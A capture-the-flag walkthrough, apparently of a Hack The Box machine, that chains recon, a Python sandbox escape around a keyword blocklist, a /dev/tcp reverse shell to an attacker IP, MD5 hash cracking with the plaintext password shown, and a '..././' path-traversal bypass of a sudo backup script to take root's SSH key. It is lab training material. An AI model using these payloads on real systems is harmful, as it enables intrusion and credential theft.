

## Reconnaissance

Starting with a full Nmap service scan:

```bash
nmap -sCV 10.129.4.71
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b5:b9:7c:c4:50:32:95:bc:c2:65:17:df:51:a2:7a:bd (RSA)
|   256 94:b5:25:54:9b:68:af:be:40:e1:1d:a8:6b:85:0d:01 (ECDSA)
|_  256 12:8c:dc:97:ad:86:00:b4:88:e2:29:cf:69:b5:65:96 (ED25519)
5000/tcp open  http    Gunicorn 20.0.4
|_http-title: Python Code Editor
|_http-server-header: gunicorn/20.0.4
```

Two ports open: **SSH (22)** and an HTTP service on **port 5000** running via Gunicorn, titled **Python Code Editor**.

## Web Enumeration

Visiting `http://10.129.4.71:5000` presented an online Python code execution environment — a browser-based editor where users can write and run Python code directly on the server.



The application had a blocklist preventing direct use of dangerous keywords such as `os`, `system`, `import`, and others. Direct attempts like `import os; os.system(...)` were blocked.

## Initial Foothold — Python Sandbox Escape

### Bypassing the Blocklist via Subclass Enumeration

Rather than using blocked names directly, Python's introspection model was leveraged to walk the class hierarchy and find a usable subprocess primitive.

Every string in Python inherits from `object` through its MRO (Method Resolution Order). From `object`, all currently loaded subclasses can be enumerated:

```python
sc = ''.__class__.__mro__[-1].__subclasses__()
```

This returns a list of every subclass of `object` currently in memory. By iterating through it, the `Popen` class (from the `subprocess` module) was identified at index **317**. Since the string `"os"` was blocked, the shell command strings were split across concatenation to avoid triggering the filter:

```python
sc = ''.__class__.__mro__[-1].__subclasses__()
sc[317](['ba'+'sh', '-c', 'ba'+'sh -i >& /dev/tcp/10.10.14.158/4444 0>&1'])
```

A listener was started on the attacker machine before submitting:

```bash
nc -lvnp 4444
```

The payload executed successfully, returning a reverse shell as `app-production`.

### Database Discovery

Inside the application's instance directory, an SQLite database was found:

```bash
app-production@code:~/app/instance$ ls
database.db
```

## Lateral Movement — SQLite Credential Dump

The database was queried for user credentials:

```sql
sqlite> SELECT * FROM user;
1|development|759b74ce43947f5f4c91aeddc3e5bad3
2|martin|3de6f30c4a09c27fc71932bfc68474be
```

Both hashes are MD5. The hash for `martin` was cracked successfully:

```
3de6f30c4a09c27fc71932bfc68474be -> nafeelswordsmaster
```

SSH login with the recovered credentials:

```bash
ssh martin@10.129.4.71
# Password: nafeelswordsmaster
```

## Privilege Escalation — backy.sh Path Traversal

### Sudo Enumeration

```bash
martin@code:~$ sudo -l
```

```
User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh
```

### Analysing backy.sh

The script was reviewed:

```bash
cat /usr/bin/backy.sh
```

```bash
#!/bin/bash

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        echo "Error: $dir is not allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"
```

Two key observations:

**1. The path traversal sanitisation is incomplete.** The script strips `../` sequences using `jq`'s `gsub("\\.\\./"; "")`. This only removes the exact two-character sequence `../`. A payload like `..././` survives the filter: after `../` is removed from the middle, the remaining characters reassemble into a valid traversal: `..././` → `../`.

**2. The allowed path check is prefix-based.** Paths must start with `/var/` or `/home/`. A path beginning with `/home/` that subsequently traverses upward still passes this check.

### Crafting the Exploit

A task JSON was created using a path that starts with `/home/` (passing the allowlist check) but uses the obfuscated traversal `..././` to escape up to `/root/`:

```json
{
  "destination": "/dev/shm",
  "multiprocessing": true,
  "verbose_log": true,
  "directories_to_archive": [
    "/home/..././root"
  ],
  "exclude": []
}
```

The script was run with sudo:

```bash
chmod 777 t.json
sudo /usr/bin/backy.sh t.json
```

```
2026/03/22 04:44:23 Archiving: [/home/../root]
2026/03/22 04:44:23 To: /dev/shm ...
tar: Removing leading `/home/../' from member names
/home/../root/
/home/../root/.ssh/id_rsa
/home/../root/.ssh/authorized_keys
/home/../root/root.txt
...
```

The entire `/root` directory was archived to `/dev/shm`. The archive was extracted:

```bash
martin@code:/dev/shm$ tar -xjvf code_home_.._root_2026_March.tar.bz2
```

### SSH as Root

Rather than just reading the root flag from the extracted archive, the root user's private SSH key was recovered and used to log in directly:

```bash
ssh -i /dev/shm/root/.ssh/id_rsa root@10.129.4.71
```

```
root@code:~# whoami
root
```

Full root access achieved.
